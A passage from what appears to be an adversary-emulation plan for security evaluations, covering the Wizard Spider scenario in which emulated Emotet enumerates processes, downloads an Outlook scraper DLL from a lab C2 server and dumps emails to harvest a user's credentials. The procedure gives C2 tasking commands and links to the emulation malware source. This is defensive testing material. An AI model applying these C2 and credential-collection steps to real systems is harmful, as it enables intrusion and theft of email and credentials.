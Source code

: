 ### Step 3 - Emotet Host Discovery and Credential Collection

:microphone: `Voice Track:`

Wizard Spider first enumerates local processes using WinAPI functions: `CreateToolhelp32Snapshot` and `Process32First`. 

Wizard Spider then downloads and loads an Outlook scraper DLL using the `LoadLibraryW` and `GetProcAddress` functions. 

Lastly, Wizard Spider executes the Outlook-scraper to dump emails and contacts.

One of the emails contains credentials for another user, bill@oz.local, which will be used in the next step.

Download Info:

```
URL (HTTP GET): http://192.168.0.4:80/modules

Download occurs over HTTP. All traffic is AES encrypted and base64 encoded in transit.

File Write:     C:\Windows\SysWOW64\Outlook.dll
```

---

### :biohazard: Procedures

Enumerate processes.

```bash
# Emotet has been observed enumerating local processes.[17]

./evalsC2client.py --set-task DOROTHY_DABB41A5 2
```
[Source Code](https://github.com/attackevals/wizard_spider/blob/main/Resources/Emotet/EmotetClientDLL/EmotetClientDLL/hostdiscovery.cpp#L172)


Download Outlook Scraper DLL from C2 channel (192.168.0.4:80 / HTTP) to current working directory.

```bash
./evalsC2client.py --set-task DOROTHY_DABB41A5 3
```
[Source Code](https://github.com/attackevals/wizard_spider/blob/f46aab5932abfd05db068d1eb81d14fdd15dc3e4/Resources/Emotet/EmotetClientDLL/EmotetClientDLL/comms.cpp#L114)

Load Outlook Scraper DLL into emotet's address space via call to LoadLibraryW() and GetProcAddress().

```bash
./evalsC2client.py --set-task DOROTHY_DABB41A5 4
```
[Source Code](https://github.com/attackevals/wizard_spider/blob/main/Resources/Emotet/EmotetClientDLL/EmotetClientDLL/loadoutlookscraper.cpp#L16)

Scrape email content from Outlook inbox via _popen call to PowerShell.
